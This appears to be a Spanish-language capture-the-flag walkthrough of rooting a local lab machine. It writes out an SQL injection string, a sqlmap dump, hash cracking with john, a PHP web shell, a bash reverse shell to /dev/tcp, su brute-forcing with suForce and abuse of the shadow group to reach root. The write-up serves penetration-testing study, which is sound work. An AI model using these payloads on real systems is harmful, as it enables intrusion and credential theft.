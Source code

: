 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![image](https://github.com/user-attachments/assets/dba385cc-25fd-47ed-8789-fb7a1b457b55)


dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![image](https://github.com/user-attachments/assets/7ef3f704-d534-4c2f-9331-bbeffbfb11e3)

voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![image](https://github.com/user-attachments/assets/1a34f523-8919-41b2-bd7e-7af4cda97399)

ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![image](https://github.com/user-attachments/assets/13406494-f292-40af-aac2-0c5114932387)

creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![image](https://github.com/user-attachments/assets/61bfdc72-9ddf-4c67-b2ce-ef75e2229252)

cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![image](https://github.com/user-attachments/assets/dbdd29ef-b39f-4204-8cab-cb6743b931fb)


creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![image](https://github.com/user-attachments/assets/114eb20f-49a2-41da-972e-0dcc6c9736cb)


después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![image](https://github.com/user-attachments/assets/4838956b-d829-4f38-9ccf-d648e30600fe)


ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![image](https://github.com/user-attachments/assets/c912d156-c0ec-4817-bc93-2bcdda680262)

entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![image](https://github.com/user-attachments/assets/1ae3b8e7-bd61-4ef4-8e9a-b3002a5a56ed)


nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![image](https://github.com/user-attachments/assets/1d4d1b58-b9ac-4f6c-bbab-87935da0557e)

nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![image](https://github.com/user-attachments/assets/17edfad2-d3d1-4e8f-9f81-dc474fbff6d8)

buscando encontré una posible contraseña:
![image](https://github.com/user-attachments/assets/442cc6a8-6ef4-4d3a-be1a-745fcaa7ceaf)

dejamos un txt así: cosa que podamos sacar  la contraseña 
![image](https://github.com/user-attachments/assets/667e7b98-bfc6-4a45-88b3-0eb0fadf2032)

de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![image](https://github.com/user-attachments/assets/8bf9f25f-90d3-4672-b286-51862d7a3d5a)

y somos root!
